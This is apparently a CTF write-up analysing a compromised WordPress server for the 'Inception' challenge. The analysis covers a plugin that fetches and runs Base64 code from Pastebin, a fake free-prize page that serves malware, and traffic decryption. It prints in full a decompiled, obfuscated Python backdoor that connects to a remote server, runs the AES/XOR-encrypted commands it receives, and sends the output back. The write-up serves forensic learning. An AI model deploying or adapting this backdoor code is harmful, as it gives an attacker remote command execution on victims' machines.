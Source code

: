 ```yaml
---
title: "Inception Write Up"
date: 2024-10-20 18:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware, Reverse Engineering]
description: Write Up of the Inception Challenge in Cyber Odyssey 2024 Qualifications
image: ../images/odyssey/odyssey.png
---
```

# Inception Write Up

![](../images/odyssey/0.png)

In this challenge, we have two files: a Linux server file system and a Wireshark network capture file.

![](../images/odyssey/1.png)

Analyzing the file system, we found the website hosted on this server at /srv/www/. It is a WordPress website.

![](../images/odyssey/2.png)

### The first part of the flag

In the WordPress files, specifically in the plugins folder (/srv/www/wp-content/plugins), we found two plugins.

![](../images/odyssey/3.png)

The plugin-manager contains a single PHP file, which is unusual. In the plugin-manager.php code, we discovered a Pastebin link. 

![](../images/odyssey/4.png)

Essentially, the script retrieves data from that Pastebin, decodes it from Base64, and executes it.

![](../images/odyssey/5.png)

After decoding the Base64 text, we obtained a script (which is a reverse shell script). Within this script, we found a variable ($secpart) that holds the first part of the flag in decimal:

![](../images/odyssey/6.png)

"65 75 65 83 69 67 123 55 104 51 95" -> "AKASEC{7h3_"

### The second part of the flag

Now that we have the first part, we still need to find the other two.

Next, we examined the main folder of WordPress. The index.php file refers us to free_items.php. The website displays the text: "Congrats! You Won a free Arduino! Click On The Image To See More Details," and clicking the image downloads an executable (which is malware).

Analyzing the code, we noticed obfuscated JavaScript. In the array of strings, we found a hex string containing the second part of the flag:

![](../images/odyssey/7.png)

"3472375f30665f6326635f" -> "4r7_0f_c&c_"

### The third part of the flag

The JavaScript also contains a Base64 text of the executable, so we retrieved the malware for analysis.

#### Static Analysis of the Malware

![](../images/odyssey/8.png)

![](../images/odyssey/9.png)

The malware is a PE32+ executable written in Python. To reverse it and see the source code, I used pyinstxtractor.py to extract the contents of this PyInstaller-generated executable file.

![](../images/odyssey/10.png)

Once extracted, we decompiled the main file (client.pyc). It contained obfuscated Python code that establishes a connection to a remote server using port 1337 to receive and execute commands sent by the server. These commands are encrypted using AES and XOR.

```py
import socket
import sys
import time
import subprocess
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import os
_DW_ = 1337

def _X_X_(_):
    return ''.join((chr(__) for __ in _))

def _X_Y_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___
_0x20_ = _X_Y_(_X_X_([60, 58, 63, 35, 63, 63, 35, 63, 60, 35, 63, 61, 63]))
_0x0_ = _X_Y_(_X_X_([16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 65, 66, 67, 68, 69, 70])).encode()
_0x01_ = _X_Y_(_X_X_([113, 114, 115, 116, 117, 118, 41, 40, 39, 38, 37, 36, 35, 34, 33, 32])).encode()
_0x00_ = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
_0x00_.connect((_0x20_, _DW_))

def _234234_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def _777_(_):
    __ = len(_)
    ___ = ''.join([chr(ord(____) ^ __) for ____ in _])
    return ___

def __(_0x, _, _func):
    _0xPP = padding.PKCS7(algorithms.AES.block_size).padder()
    _0xPD = _0xPP.update(_0x.encode()) + _0xPP.finalize()
    _0xC = Cipher(algorithms.AES(_), modes.CBC(_func), backend=default_backend())
    _0xE = _0xC.encryptor()
    _0x555 = _0xE.update(_0xPD) + _0xE.finalize()
    return _0x555

def ____(___, _____, _):
    _CC = Cipher(algorithms.AES(_____), modes.CBC(_), backend=default_backend())
    _D = _CC.decryptor()
    _DD = _D.update(___) + _D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    _DD = u.update(_DD) + u.finalize()
    return _DD.decode()

def _(__):
    _ = b''
    while True:
        ___ = __.recv(1024)
        print(___)
        if not ___:
            break
        _ = _ + ___
        if len(___) < 1024:
            break
    return _

def _____(_, __, ___=1024):
    ____ = 0
    while ____ < len(__):
        _____ = _.send(__[____:____ + ___])
        ____ += _____
while True:
    try:
        ___________ = _(_0x00_)
        print(___________)
        ___________ = ____(___________, _0x0_, _0x01_)
        print(___________)
        ___________ = _777_(___________)
        print(___________)
        print('received : {}'.format(___________))
        ___________ = subprocess.run(___________, shell=True, capture_output=True, text=True)
        print(___________.returncode)
        if not ___________.returncode:
            print(___________.stdout)
            ___________ = _234234_(___________.stdout)
            ___________ = __(___________, _0x0_, _0x01_)
            _____(_0x00_, ___________)
        else:
            ___________ = _234234_(___________.stderr)
            ___________ = __(___________, _0x0_, _0x01_)
            _0x00_.send(___________)
    except KeyboardInterrupt:
        _0x00_.close()
        print('connection closed !!!')
        exit()
```

After deobfuscating the code, we found the key and IV used for AES encryption:

`KEY = b'0123456789abcdef0123456789abcdef'`
`IV = b'abcdef9876543210'`

Now that we have the network capture file, we can analyze the commands executed on the server.

#### Analyzing Network Traffic

We filtered the TCP protocol by port 1337 and followed the stream. The data in red represents the client commands sent to the server (the victim computer), while the blue data shows the output of those commands.

![](../images/odyssey/11.png)

Next, we needed to change the output of the packets from ASCII to RAW.

![](../images/odyssey/12.png)

This is the Python script I created to decrypt the traffic.

```py
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding

KEY = b'0123456789abcdef0123456789abcdef'
IV = b'abcdef9876543210'

def decrypt_xor(data):
    length = len(data)
    result = ''.join([chr(ord(i) ^ length) for i in data])
    return result

def to_decrypt(a, key, iv):
    CC = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    D = CC.decryptor()
    DD = D.update(a) + D.finalize()
    u = padding.PKCS7(algorithms.AES.block_size).unpadder()
    DD = u.update(DD) + u.finalize()
    return DD.decode()

a = bytes.fromhex("") # here put the RAW data
a = to_decrypt(a, KEY, IV)
a = decrypt_xor(a)
print(a)
```

When decrypting the traffic, we found that one of the commands sent to the server contained the last part of the flag.

![](../images/odyssey/13.png)

Flag : `AKASEC{7h3_4r7_0f_c&c_15_m1nd_bl0w1n6}`

### Conclusion

In conclusion, this challenge was good. I enjoyed it, even though I spent a significant amount of time finding the first part that was hidden in the plugin.

